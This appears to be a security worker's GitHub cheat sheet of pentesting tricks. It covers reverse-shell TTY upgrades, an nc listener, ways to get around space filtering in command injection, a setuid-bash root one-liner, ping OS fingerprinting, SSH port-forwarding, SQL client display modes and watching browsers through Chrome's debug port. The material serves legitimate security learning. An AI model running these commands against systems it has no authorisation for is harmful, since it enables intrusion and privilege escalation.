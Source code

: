 # Here you can find some tricks I learned over the years of doing security work


## Python one line import
Python allows one line imports with the \_\_import\_\_ method. This can be used to run module code in one line to bypass restrictions. 
```py
__import__('some_module').some_function()
```

## Upgrade Reverse Shell with Python
When catching a reverse shell it's often just a primitive shell, that does not allow tab completion, ctrl-c or clear functionality.
Upgrading a primitive shell can solve these issues. First you need to spawn a proper pseudoterminal that acts like a normal terminal. 
This can be done via python with:
```bash
python -c "import pty; pty.spawn('/bin/bash')" # Spawn pseudo tty 
```
This allows you to interact with everything like you would with a normal terminqal.
No we disable the echo so that our commands are not displayed twice and enable raw tty to pass commands like ctrl-c straight through to our pseudo terminal with:
```bash
# Press ctrl-z to background the reverse shell
stty -a # List all tty settings
stty -echo raw;fg # Run this in your terminal not. (If you run zsh the ;fg is needed otherwise it can be done in two commands)
# You might need to press enter one or two times
stty rows <number_of_rows> cols <number_of_cols> # You get both numbers from stty -a
export TERM=xterm # Run in the pseudo terminal again to allow clear command
```

## Upgrading Shell without Python ([SRC](https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet))
```
script /dev/null -c bash
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
echo os.system('/bin/bash')
/bin/sh -i
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

## Upgrading a Windows Shell
Upgrading a windows shell is really hard. Possible ways are using a socat binary, a meterpreter shell or the following crude way using `rlwrap`:
```bash
rlwrap nc -lvnp <PORT>
```
When the reverseshell connects, it is partially interactive. It allows to use the arrows keys to edit the line and recall the command history.
Although this is a upgrade to a crude shell it still lacks some interactivity such as being able to CTRL-C a running program. I get some problems when
upgrading that shell fully though.

## Infinite Ping
On linux machines doing a ping results in a infinite running command. 
Thus pinging to check for command injection should be done with a max number of pings:
```bash
ping -c 5
```

## OS Fingerprinting with Ping
Different operating system have different inital TTL values when responding to a ping and thus can be fingerprinted:
```bash
ping -c 5 some_ip
# Linux TTL: Around 64
# Windows TTL Around 128
```

## Temporary Files
The `/dev/shm` 'directory' in Linux is a tempfs. The files placed in there are living in RAM only and thus are deleted with each reboot.
This makes it fast to write to and read from. 

## SSH Port Forwarding after connecting
When enabling `EnableEscapeCommandline` in your SSH config it is possible to use `~C` to change the SSH connection parameters allowing
to enable port forwarding and more. [See here](https://man.openbsd.org/ssh_config#EnableEscapeCommandline)

## Bypassing Space Restrictions
If you are restricted of using spaces in your command injections you might be able to bypass it with the following methods:
```bash
# 1. bash curly brace expansion
{echo,test} == echo test

# 2. IFS Variable
echo${IFS}test == echo test
```

## Fast root shell
If you only have restricted command injection as root you can try to change the permissions of /bin/bash to have the suid bit set, if you are already on the system
with another user.
```bash
chmod u+s /bin/bash
/bin/bash -p # as the other user

# Oneliner
chmod 4777 /bin/bash && /bin/bash -p
```

# Change output format of SQL clients
```bash
# SQLite
.mode table # Default mode, similar to box
.mode box # Create a box around everything
.mode line # Make rows instead of columns - This is really useful
.mode list # Simple list format
More modes can be found at https://sqlite.org/cli.html#changing_output_formats

# MySQL
SELECT * FROM table \G # \G does the same as the .mode line in SQLite

Postgres
\x on # Change to mode similar to .mode line
```

# Chrome Debug Port
When Chrome runs in debug mode it is possible to connect to it and see what the person is doing in that browser.


